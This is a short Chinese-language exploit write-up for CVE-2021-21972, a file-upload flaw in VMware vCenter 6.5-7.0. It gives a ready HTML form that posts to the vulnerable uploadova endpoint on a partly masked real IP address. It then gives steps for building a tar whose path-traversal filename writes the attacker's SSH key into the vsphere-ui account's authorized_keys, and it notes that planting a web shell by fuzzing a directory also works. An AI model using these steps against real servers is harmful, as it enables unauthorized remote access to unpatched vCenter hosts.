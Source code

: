 # CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞

## 参考
http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/?continueFlag=f498c1c266566c7838d9ab5bef68118c
https://swarm.ptsecurity.com/unauth-rce-vmware/
## 漏洞细节

漏洞为任意文件上传
存在问题的接口为/ui/vropspluginui/rest/services/uploadova
- 构造exp.html

```
<html>
<head>
<title>CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞上传利用</title>
</head>
<body>
    <form action="https://221.11.xx.211/ui/vropspluginui/rest/services/uploadova" method="post" enctype="multipart/form-data">
        test：<input type="text" name="name" value="不用输入"><br>
        选择你的exp html：<input type="file" name="uploadFile"><br>
        <input type="submit" value="提交">
    </form>
<pre>
利用了接口：/ui/vropspluginui/rest/services/uploadova，上传自己的SSH生成的公钥，使用SSH进行登录。

</pre>
</body>
</html>
```
- 构造tar

```
ssh-keygen -t rsa
cp /Users/root/.ssh/id_rsa.pub authorized_keys

使用7zip 压缩authorized_keys为 authorized_keys.tar,然后编辑压缩包，修改文件authorized_keys名字为：../../home/vsphere-ui/.ssh/authorized_keys
然后保存，关闭7zip
```
- 上传

使用html上传tar即可，然后使用ssh 221.11.xx.211 进行登录

Linux 下getshell, 需要Fuzz 一下 exp.txt的包,设置/global/42/0/h5ngc.war中的42从 10 - 110即可

事实证明，authorized_keys写成功了，但是密码过期了也不能登录，爆破目录进行写shell是可行的。
```


